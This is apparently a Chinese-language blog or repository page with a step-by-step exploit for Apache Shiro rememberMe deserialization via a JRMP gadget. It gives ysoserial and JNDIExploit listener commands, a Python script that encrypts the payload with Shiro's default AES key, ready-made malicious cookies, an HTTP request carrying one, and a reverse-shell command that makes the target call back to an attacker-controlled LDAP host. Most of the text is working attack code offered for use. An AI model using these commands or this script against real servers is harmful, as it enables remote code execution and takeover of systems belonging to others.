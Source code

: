 ## shiro JRMP gadget

第一步：

```
java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar  ysoserial.exploit.JRMPListener 8088 CommonsBeanutils2 "ldap://ip:1389/Basic/Command/Whoami"
```

第二步:

```
 java -jar JNDIExploit-1.0-SNAPSHOT.jar -i ip
```



第三步：**修改13行key和21的主机ip和端口是第一步的主机ip和端口**

```
import sys # http11InputBuffer
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):

    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-1.8.3.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("4AvVhmFLUs0KTA3Kprsdag==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme("ip:8088")
    print("rememberMe={0}".format(payload.decode()))
```



第四步：**运行修改后第三步脚本**得到生成的cookie发包(某些环境可能使用burp存在问题，最好写个脚本之类的发包。)

```
rememberMe=vmWUdu7/R4y70YB6bHhacqcGLMLYDq4Pf6negfP9CyEJcp1ImtJv+1veBvuS7WxB5i/P9KRe+5qjdI2SAKWDM5LKY/0OrFP37NecjUbYUubeuN293QTNdEm1fKXWIDelGzB45ZxN6HYhLrwx8CJXBH6pHaqxvpofXWNYbnRgjfSrSqo7VIsQLngzrzm7iN62c6iqT7D6oWtQH6vFncEuCVT2o9UJCrRohpswDozdVRcoqObBI6USbSjToSj9g5Z+SzLOkWh4sqAp9DHeZ9OJho9k2grCTofPoOCxIeZ8fU68VjO8AoM7eIcu3l1pNH6wOfbtup+WfmeUv2+Cwyn4l850U9fFLRLLFmnNoILSk38tBk7h7q3hl8Cf+xKrIo21OhuyzR8GqZBEtbYT8sgloA==
```

![image-20211208130452912](https://gitee.com/samny/images/raw/master/summersec//0u05er0ec/0u05er0ec.png)



```
GET /sip2/login HTTP/1.1
Content-Type: text/xml
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cookie: rememberMe=M3GVUEJCRvGoNdd4QIMLF2K5k9OkALM4FUCAX7VIf8CoDzjvfhGGkiqDefOBvAF21SoZ38kS+/hvBoVzG8Ub++/6uNhNCFlb4sbGnjdiu4DIHcyPas5d9LLnAzrWbWPY0OO1ATuoH2i+DQddFjWJu9ToQwfDCgS+oJquqDguZsTOp5iRn5dB72+c73S1COuu5cjmmlfhPuADPq6v2NFVdHmOCipC1mj8Z8MNjIXZ+JpXi1TP4cEKufXVNE9mzDyxnzGCWr5Qo7taMQua+MpTHEPpUseASlACWHy0IxY1g5ZvI9/Kw2UY9kXdhlQM0dN4Q1O4neoSMvk/N/Muir8KeyH1FrCj+xhSxj9xSGzIOt5m5e8zjDxf7tMXWhRaPOXj7ckP4/ieI82OteoVrSQIVQ==
Host: ip


```



反弹shell：

```
java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar  ysoserial.exploit.JRMPListener 8088 CommonsBeanutils2 "ldap://{ip}:{port}/Basic/ReverseShell/{ip}/{port}"
```







## 工具下载地址：

[shiro-JRMP_gadget](https://github.com/SummerSec/BlogParpers/releases/download/shiro/shiro-JRMP_gadget.zip)

